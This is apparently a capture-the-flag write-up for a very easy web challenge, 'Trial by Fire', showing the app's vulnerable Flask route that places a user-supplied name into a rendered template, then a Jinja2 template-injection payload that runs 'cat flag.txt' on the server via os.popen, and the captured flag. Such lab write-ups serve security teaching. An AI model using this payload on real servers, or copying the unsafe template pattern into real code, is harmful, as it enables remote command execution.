




# Cyber Apocalypse CTF 2025: Tales from Eldoria

## Trial by Fire
> As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.


- **Category**: Web 
- **Difficulty**: Very Easy
- **Author**: Alexct549

## Writeup

Let's start with a site review 🤩









So we got a "login",battle and report pages 

In the battle one we even find a script witch when ewe do the konami code activates a feature to capture the dragon (for now i'll flag it as useless)

```js

    import { DragonGame } from '/static/js/game.js';
    import { addVisualEffects } from '/static/js/effects.js';

    const game = new DragonGame();
    game.init();
    addVisualEffects(game);

    // Konami code sequence to reveal the leet (Ancient Capture Device) button
    // const konamiCode = ['ArrowUp', 'ArrowUp', 'ArrowDown', 'ArrowDown', 'ArrowLeft', 'ArrowRight', 'ArrowLeft', 'ArrowRight', 'b', 'a'];
    const konamiCode = ['ArrowUp'];
    let konamiIndex = 0;

    document.addEventListener('keydown', (e) => {
      if (e.key === konamiCode[konamiIndex]) {
        konamiIndex++;
        if (konamiIndex === konamiCode.length) {
          document.querySelector('.leet').classList.remove('hidden');
          konamiIndex = 0;
        }
      } else {
        konamiIndex = 0;
      }
    });
  
```

NOW onto the code review 

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>The Flame Peaks</title>
  <link rel="icon" type="image/png" href="/static/images/favicon.png" />
  <!-- Import NES.css from a CDN -->
  <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
  <!-- Import your custom styles AFTER NES.css -->
  <link rel="stylesheet" href="/static/css/style.css">
  <!-- Additional inline overrides for this page -->
</head>
<body>
  <div class="home-container nes-container is-rounded">
    <h1 class="nes-text is-error">Welcome to the Flame Peaks</h1>
    <p class="nes-text">
      In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
      <br><br>
      Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
      <br><br>
      Can you read the runes? Perhaps {{ 7 * 7 }} is the key.
    </p>
    
    <form action="/begin" method="POST" class="warrior-form nes-container is-rounded">
      <div class="form-group">
        <label for="warrior_name" class="nes-text is-error">What is your name, brave warrior?</label>
        <input type="text" id="warrior_name" name="warrior_name" class="nes-input" required placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
      </div>
      <button type="submit" class="nes-btn is-error challenge-button">
        ⚔️ Challenge the Fire Drake
      </button>
    </form>
  </div>
</body>
</html>
```

Oh look `{{7*7}}` flusk, maybe we can use it to get something good 👀

```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """
```

mmmm so it just gets the name whatever it is and puts it there...well i guess that's it then 😳

```
{{ cycler.__init__.__globals__['os'].popen('cat flag.txt').read() }}
```
This will surely get us the flag, remember to use burp cause the main site it's mean to us 😞



>HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_df76294b77f76130e08d2192900ce8bf}
